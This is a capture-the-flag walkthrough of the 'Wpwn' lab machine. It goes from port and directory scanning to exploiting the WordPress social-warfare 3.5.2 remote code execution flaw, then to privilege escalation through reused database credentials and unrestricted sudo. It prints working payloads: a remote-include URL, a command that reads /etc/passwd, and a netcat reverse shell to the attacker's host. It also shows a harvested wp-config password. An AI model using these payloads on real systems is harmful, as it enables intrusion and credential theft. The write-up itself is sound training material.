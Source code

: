 # Wpwn

![img/os.png](img/os.png)

## Recon

Start with Nmap

```bash
nmap 192.168.128.123 -Pn -T3 -sV -sC

Nmap scan report for 192.168.128.123
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got two service running on the machine, `ssh (22)` and `http (80)`

Open the page, we got no hint

![img/Untitled.png](img/Untitled.png)

Let's enumerate the hidden directory with Gobuster

```bash
gobuster dir -u http://192.168.128.123/ -w /usr/share/wordlists/dirb/common.txt -t 10

===============================================================
2021/07/25 13:14:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 23] 
/robots.txt           (Status: 200) [Size: 57] 
/server-status        (Status: 403) [Size: 280]
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.128.123/wordpress/]
                                                                                       
===============================================================
2021/07/25 13:16:15 Finished
===============================================================
```

Got two interesting directory, `robots.txt` and `wordpress`. First, check the `robots.txt`, maybe they leave us a hint

![img/Untitled%201.png](img/Untitled%201.png)

Direct us to another directory `secret`

![img/Untitled%202.png](img/Untitled%202.png)

Nothing, so jump to `/wordpress`

![img/Untitled%203.png](img/Untitled%203.png)

We've got a blog homepage which is **WordPress**, so try to enum more of this WordPress application with **WPScan** and we will find the **social-warfare** plugin is likely vulnerable to [Remote Code Execution (RCE)](https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/) because it's version is **3.5.2.**

```bash
[i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Comment (Passive Detection)
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.128.123/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Query Parameter (Passive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/assets/css/style.min.css?ver=3.5.2
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/assets/js/script.min.js?ver=3.5.2
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.128.123/wordpress/wp-content/plugins/social-warfare/readme.txt
```

## Exploit

To exploit this, we must **create a file** that contain our command 

```php
<pre>
system('cat /etc/passwd');
</pre>
```

Run web server in our attack machine `python3 -m http.server 80` to host our file so the target web server can load our command file. Go to url

```php
wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.128/command.txt
```

Then reload the page and confirm that our command is run

![img/Untitled%204.png](img/Untitled%204.png)

Now we can try to create **reverse shell command**

```php
<pre>
system('nc -e /bin/sh 192.168.49.128 4444')
</pre>
```

Reload the page and we got it

![img/Untitled%205.png](img/Untitled%205.png)

Enumerate the `/home/takis` directory to grab the user flag, we got no luck because the flag is in another file, after a little bit digger, we can found the user flag in `/var/www/local.txt`

![img/Untitled%206.png](img/Untitled%206.png)

## Privilege Escalation

Try to get all of information about the machine using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), we got a **database credential** in wordpress config file

```bash
[+] Searching Wordpress wp-config.php files
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress_db' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );
define( 'DB_HOST', 'localhost' );
```

try to login as `takis` and the password we got on wordpress config file with SSH, now we can fully access the machine. Then to find which takis user can run command as root with `sudo -l`

```bash
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
```

From the `sudo -l` information, we can run all command with **sudo (root privilege)** without the password, so we don't need another action to escalate our current privilege. Locate the `/root` directory to find the root flag and grab them

![img/Untitled%207.png](img/Untitled%207.png)

